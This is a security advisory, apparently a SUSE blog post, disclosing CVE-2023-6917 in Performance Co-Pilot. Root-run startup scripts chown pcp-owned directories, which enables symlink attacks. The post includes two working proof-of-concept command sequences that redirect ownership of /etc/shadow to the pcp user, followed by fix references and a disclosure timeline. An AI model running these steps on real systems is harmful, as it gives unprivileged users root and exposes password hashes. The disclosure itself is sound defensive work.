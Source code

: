 ```yaml
---
layout: post
author: <a href='mailto:matthias.gerstner@suse.de'>Matthias Gerstner</a>
title:  "Performance Co-Pilot (pcp): Unsafe use of Directories in /var/lib/pcp and /var/log/pcp breaks pcp Service User Isolation (CVE-2023-6917)"
date:   2024-02-27
tags:   CVE local
excerpt: "The pcp performance analysis toolkit operates as root in directories controlled by the pcp service user, which allows to escalate privileges from pcp user to root."
---
```


1) Introduction
===============

[Performance Co-Pilot (pcp)][pcp-website] is a performance analysis toolkit
that allows to gather and evaluate data on a local system and also share this
data over the network in a distributed manner.

During routine reviews we noticed issues in pcp on Linux with directory
permissions that allow to locally escalate privileges from the _pcp_ service
user to _root_.

These findings are based on the 5.3.7 version release of pcp. CVE-2023-6917
has been assigned for this class of issues in pcp.

2) Service User And Directory Permissions
=========================================

The systemd services shipped with pcp run with mixed privileges. Some use only
limited _pcp_ user/group privileges, like "pmie_check.service". Others like
"pmcd.service" run with full root privileges. The `pmcd` daemon implements the
networking logic of pcp. It drops privileges from _root_ to _pcp_ during
startup.

The different pcp programs use a shared directory structure:

- /var/lib/pcp/tmp owned by `pcp:pcp` mode `0775`
- /var/log/pcp     owned by `pcp:pcp` mode `0775`

When privileged processes running as _root_ access files in directories or
directory trees controlled by unprivileged users then easily security issues
can result from this. For the directories listed above we quickly found the
two exploitable issues that are described in the following sections.

3a) Startup Script for `pmcd` runs chown for `$PCP_TMP_DIR/pmlogger`
====================================================================

The "pmcd.service" runs with root privileges and executes the bash script
"/usr/libexec/pcp/lib/pmcd" (named "rc_pmcd" in the Git source repository).
Within this script the [following code][pmcd-snippet] runs as part of the
start routine, found in function `_reboot_setup()`:

     if [ ! -d "$PCP_TMP_DIR/pmlogger" ]
     then
         mkdir -p -m 775 "$PCP_TMP_DIR/pmlogger"
         chown $PCP_USER:$PCP_GROUP "$PCP_TMP_DIR/pmlogger"
         if which restorecon >/dev/null 2>&1
         then
             restorecon -r "$PCP_TMP_DIR"
         fi
     else

`$PCP_TMP_DIR` in this context refers to "/var/lib/pcp/tmp", owned by `pcp:pcp`
mode `0775`. Since the shell code above does not exit on errors, a compromised pcp
user doesn't even have to win a race condition to perform a symlink attack.
The following exploit works:

    # simulate a compromised pcp user
    root # sudo -u pcp -g pcp bash
    pcp  $ cd /var/lib/pcp/tmp
    pcp  $ rm -r pmlogger
    pcp  $ ln -s /etc/shadow pmlogger
    pcp  $ exit
    root # systemctl start pcmd.service
    root # ls -l /etc/shadow
    -rw-r----- 1 pcp pcp 1.2K Dec  7 15:47 /etc/shadow

3b) Startup Script for `pmproxy` runs chown in `$RUN_DIR`
=========================================================

The "pmproxy.service" runs with root privileges and executes the bash script
"/usr/libexec/pcp/lib/pmproxy" (named `rc_pmproxy` in the Git source
repository). Within this script the [following code runs][pmproxy-snippet] as
part of the start (and other) routines:

    # create directory which will serve as cwd
    if [ ! -d "$RUNDIR" ]
    then
        mkdir -p -m 775 "$RUNDIR"
        chown $PCP_USER:$PCP_GROUP "$RUNDIR"
    fi

`$RUN_DIR` in this context refers to "/var/log/pcp/pmproxy". "/var/log/pcp" is
owned by `pcp:pcp` mode `0775`. Similar to the exploit described in section
3a), no race condition has to be won to exploit this:

    # simulate a compromised pcp user
    root # sudo -u pcp -g pcp bash
    pcp  $ cd /var/log/pcp
    pcp  $ rm -rf pmproxy
    pcp  $ ln -s /etc/shadow pmproxy
    pcp  $ exit
    root # systemctl start pmproxy.service
    root # ls -l /etc/shadow
    -rw-r----- 1 pcp pcp 1.2K Dec  7 15:47 /etc/shadow

4) Summary
==========

We only picked two of the more obvious security issues that result from _root_
processes operating on these pcp owned directories. There are likely more
issues of the same class lingering in the pcp scripts that run as _root_. Given
this, the user separation of _pcp_ can be considered nonexistent in its
current form, the _pcp_ user should be treated equal to _root_.

The _pcp_ service user is also used for the network facing `pmcd` component,
thus these issues strongly impact defense in depth for pcp, for the scenario
when an attacker finds a way to exploit the network daemon.

5) Bugfix
=========

There is an [upstream pull request][pcp-bugfix-pr] that contains a high
number of commits that make up a larger redesign of the privilege separation
handling in pcp. It is difficult to isolate any simple patches from that.

I attempted to identify the relevant commits [in our Bugzilla
bug][bugzilla-commit-list] that tracks this issue to help with backporting.

6) Timeline
===========

|2023-12-13|I reported the findings to pcp-maintainers@groups.io offering coordinated disclosure.|
|2023-12-14|The Red Hat Security Team was added to the discussion.|
|2023-12-15|After some initial disagreement whether this qualifies as an actual security issue an agreement was found that it is a change of security scope and deserves a CVE assignment.|
|2023-12-15|An upstream author suggested mid of February as a publication date, for which time a release for pcp has been planned anyway.|
|2023-12-18|Red Hat Security assigned CVE-2023-6917 to track the issue(s).|
|2024-01-01|Upstream discussed some initial changes to address the issue(s) in the mail thread and I tried to give some feedback about them.|
|2024-02-20|Communication about the publication process has died down and I learned from our packager that the [Pull Request][pcp-bugfix-pr] containing the fixes has already been public for a longer time. It seems no clear embargo has been established for the coordinated release, there have been contradicting statements.|
|2024-02-27|After verifying with the upstream authors that publication is okay I finalized my report and published all information.|

7) References
=============

- [PCP website][pcp-website]
- [Upstream Pull Request that Addresses the Issues][pcp-bugfix-pr]
- [List of Relevant Bugfix Commits in our SUSE Bugzilla][bugzilla-commit-list]

[pcp-website]: https://pcp.io/
[pcp-bugfix-pr]: https://github.com/performancecopilot/pcp/pull/1873
[bugzilla-commit-list]: https://bugzilla.suse.com/show_bug.cgi?id=1217826#c24
[pmcd-snippet]: https://github.com/performancecopilot/pcp/blob/5.3.7/src/pmcd/rc_pmcd#L134
[pmproxy-snippet]: https://github.com/performancecopilot/pcp/blob/5.3.7/src/pmproxy/rc_pmproxy#L264
